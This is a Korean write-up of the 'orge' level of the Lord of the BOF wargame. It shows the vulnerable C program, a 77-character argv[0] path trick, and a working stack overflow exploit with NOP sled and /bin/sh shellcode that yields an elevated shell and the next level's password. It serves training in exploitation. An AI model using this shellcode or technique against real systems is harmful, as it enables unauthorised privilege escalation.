 # Summary

**이전 문제와 동일한 내용은 생략하고 추가된 내용만 다루었다.**

> 문제의 소스코드

```c
[darkelf@localhost darkelf]$ cat orge.c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - orge
        - check argv[0]
*/

#include <stdio.h>
#include <stdlib.h>

extern char **environ;

main(int argc, char *argv[])
{
	char buffer[40];
	int i;

	if(argc < 2){
		printf("argv error\n");
		exit(0);
	}

	// here is changed!
	if(strlen(argv[0]) != 77){
                printf("argv[0] error\n");
                exit(0);
	}

	// egghunter
	for(i=0; environ[i]; i++)
		memset(environ[i], 0, strlen(environ[i]));

	if(argv[1][47] != '\xbf')
	{
		printf("stack is still your friend.\n");
		exit(0);
	}

	// check the length of argument
	if(strlen(argv[1]) > 48){
		printf("argument is too long!\n");
		exit(0);
	}

	strcpy(buffer, argv[1]);
	printf("%s\n", buffer);

        // buffer hunter
        memset(buffer, 0, 40);
}
```

<br>

이전 문제에서 추가된 부분은 파일명에 해당하는 `argv[0]` 길이가 77인지 체크한다.

이 경우 파일명을 77개로 맞춰주면 우회가 가능하다.

아래와 같이 간단히 작성된 파이썬 코드로 조건문을 모두 만족시켜 스택을 `overflow` 시킬 수 있다.

```Python
[darkelf@localhost darkelf]$ ./orge `python -c "print 'A'*44+'\xbf\xbf\xbf\xbf'"`
argv[0] error

[darkelf@localhost darkelf]$ `python -c "print '.'+'/'*72+'orge'"` `python -c "print 'A'*44+'\xbf\xbf\xbf\xbf'"`
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA����
Segmentation fault
```

<br>



# Analysis & Exploit

#### 아래는 이전 문제와 모두 동일한 내용이기 때문에 요약하여 내용을 정리하였다.

> `tmp`폴더를 생성해 문제의 소스코드를 복사하여 실행 권한을 획득한다.

```python
[darkelf@localhost darkelf]$ mkdir tmp; cp orge.c tmp;
[darkelf@localhost darkelf]$ cd tmp
```



> 문제의 소스코드에 `argv[2]`주소 값을 확인하는 코드를 아래와 같이 추가해준다.

```Python
[darkelf@localhost tmp]$ vi orge.c
printf("argv[2]: %#x\n",argv[2]); // argv[2] address
[darkelf@localhost tmp]$ gcc orge.c -o orge
```



> 파이썬으로 파일명에 해당하는 `argv[0]` 길이를 77개로 작성해 이전 문제와 동일한 exploit 코드를 작성한다.

```python
[darkelf@localhost tmp]$ `python -c "print '.'+'/'*72+'orge'"` `python -c "print 'A'*44+'\xbf\xbf\xbf\xbf'"` `python -c "print '\x90'*1000+'\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80'"`
argv[2]: 0xbffff7d2
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA����
Segmentation fault (core dumped)
```



> 확인된 `argv[2]`에 해당하는 주소 값으로 `ret` 값을 변경하여 exploit 코드를 실행하여 `shell`을 획득할 수 있다.

```Python
[darkelf@localhost tmp]$ cd ..
[darkelf@localhost darkelf]$ `python -c "print '.'+'/'*72+'orge'"` `python -c "print 'A'*44+'\xd2\xf7\xff\xbf'"` `python -c "print '\x90'*1000+'\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80'"`
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA����
argv[2]: 0xbffff7d2
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA����
bash$ id
uid=506(darkelf) gid=506(darkelf) euid=507(orge) egid=507(orge) groups=506(darkelf)
bash$ my-pass
euid = 507
timewalker
```

### Clear! password is….

timewalker